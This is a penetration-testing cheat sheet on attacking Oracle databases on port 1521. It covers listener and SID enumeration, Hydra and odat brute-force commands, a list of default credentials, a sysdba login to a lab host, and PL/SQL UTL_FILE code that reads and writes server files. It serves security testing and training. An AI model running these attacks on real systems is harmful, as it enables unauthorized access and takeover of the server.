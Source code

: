# 1521 - ORACLE\_DB

### Overview

Oracle Database (commonly referred to as Oracle RDBMS or simply as Oracle) is a multi-model database management system produced and marketed by Oracle Corporation.

### 1. TNS-Listener:

When enumerating Oracle the first step is to talk to the TNS-Listener that usually resides on the default port (1521/TCP). For this we have a simple tool called **tnscmd.**

```bash
tnscmd.pl status -h <IP_Address>
```

* If you receive an error while this connection, the listener may be password protected.
  * If **Password Protected,** use **hydra**.

### 2. Hydra & Oracle Listener:

Use the following command to bruteforce using **Hydra.**

```bash
./hydra -P -t -s 1521 (target default port) oracle-listener
```

* Example:

```bash
./hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

### 3. Enumerating the SID <a href="#4f50" id="4f50"></a>

#### What is a SID <a href="#fb45" id="fb45"></a>

The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.

So how do we enumerate SIDs, first there is a brilliant tool from cqure.net called **OScanner**, but we can also use **Hydra** and **Metasploit**.

* Use the following command syntax to brute-force SIDs

```bash
./hydra -L <File of SIDs> -s 1521 (target default port) <target> oracle-sid
```

### 4. Targeting Accounts:

**Got SID?** Excellent, now let’s move to the next task and extract the user account information. From this point, you can connect to the listener and brute-force credentials.

### **- Default Passwords**

Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP** — Intelligent Agent uses this to talk to the db server (its some work to change it)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

Other **default passwords** can be found [here ](http://www.petefinnigan.com/default/oracle\_default\_passwords.htm)and [here](https://cirt.net/passwords?vendor=Oracle).

### Hydra & Oracle SQL-Login <a href="#651e" id="651e"></a>

**Example**:

```
./hydra -L /tmp/user.txt -P /tmp/pass.txt -s 1521 host.victim oracle /PLSEXTPROC
```

### Using odat:

```bash
odat.py passwordguesser -s IP_ADD -d SID
```

### 5. One for All:

* All of the things discussed earlier can be done using a tool called **odat.**

### **6. Exploitation:**

With the gained creds, we can connect to the oracle database as **System Database Admin**(sysdba).

```bash
sqlplus scott/tiger@silo.htb/XE as sysdba
```

* **Checking session Privs:**

```sql
select * from session_privs;
```

* **Checking User Privs:**

```sql
select * from user_role_privs;
```

#### Reading/Writing files :

**Example:**(READING FILE)

```sql
declare
    l_file utl_file.file_type;
    l_read varchar(200);
begin
    l_file := utl_file.fopen('/inetpub/wwwroot' ,'iisstart.htm','R');
    utl_file.get_line (l_file, l_read);
    utl_file.fclose (l_file);
    dbms_output.put_line(l_read);
end;
```

**Example:**(Writing File)

```sql
declare
       l_file   UTL_FILE.file_type;
begin
   l_file := UTL_FILE.fopen (<DIR_PATH>, <FILE_NAME>, 'W');
   UTL_FILE.put_line (l_file, '<FILE_CONTENT>');
   UTL_FILE.fclose (l_file);
end;

```

